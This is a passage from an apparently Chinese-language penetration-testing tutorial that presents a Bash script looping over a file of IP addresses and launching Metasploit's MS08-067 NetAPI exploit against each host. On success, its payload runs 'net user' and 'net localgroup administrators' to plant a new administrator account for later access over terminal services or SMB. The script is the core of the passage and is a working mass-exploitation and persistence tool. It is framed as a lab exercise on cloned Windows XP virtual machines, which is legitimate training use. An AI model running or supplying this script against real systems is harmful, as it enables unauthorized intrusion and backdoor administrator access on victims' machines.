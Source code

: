 # 多线程 MSF 利用与管理员账户创建

本教程将演示如何使用 Bash 在多个系统上利用单一漏洞，并在每个系统上添加一个新的管理员账户。该技术可用于在稍后通过集成的终端服务或 SMB 身份验证访问被攻破的系统。

# 准备工作

要使用本教程中演示的脚本，您需要访问多个具有相同漏洞的系统，这些系统可以通过 Metasploit 进行利用。在提供的示例中，一台运行易受攻击版本的 Windows XP 的虚拟机被复制，用以生成三个 MS08-067 漏洞实例。有关设置 Windows 系统的更多信息，请参考第一章中的*安装 Windows 服务器*教程，*入门*部分。此外，本节还要求使用如 Vim 或 GNU nano 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参考第一章中的*使用文本编辑器（Vim 和 GNU nano）*教程，*入门*部分。

# 如何操作…

接下来的示例演示了如何使用 Bash 脚本同时利用多个实例的单一漏洞。特别是，这个脚本可以通过引用 IP 地址输入列表来利用多个 MS08-067 NetAPI 漏洞实例：

```
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file> <username>
<password>"; 
exit; fi

iplist=$1
user=$2
pass=$3

for ip in $(cat $iplist)
do
gnome-terminal -x msfconsole -x
"use exploit/windows/smb/ms08_067_netapi; set RHOST $ip;
 set PAYLOAD windows/exec; set CMD cmd.exe /c net user
 $user $pass add && net localgroup administrators $user add;
 run"
echo "Exploiting $ip and adding user $user"
i=$(($i+1))
done

```

1.  该脚本与之前的多线程利用脚本不同，因为其有效载荷的设计。

1.  在这种情况下，成功利用漏洞后会执行两个顺序命令。第一个命令创建一个名为`hutch`的新用户账户，并设置关联的密码。第二个命令将新创建的用户账户添加到本地管理员组中：

![](img/00115.jpeg)

1.  如果没有提供任何参数执行脚本，脚本将输出适当的使用说明。该使用说明会指出，脚本应该带上一个指定包含目标 IP 地址列表的文本文件的文件名作为参数来执行。
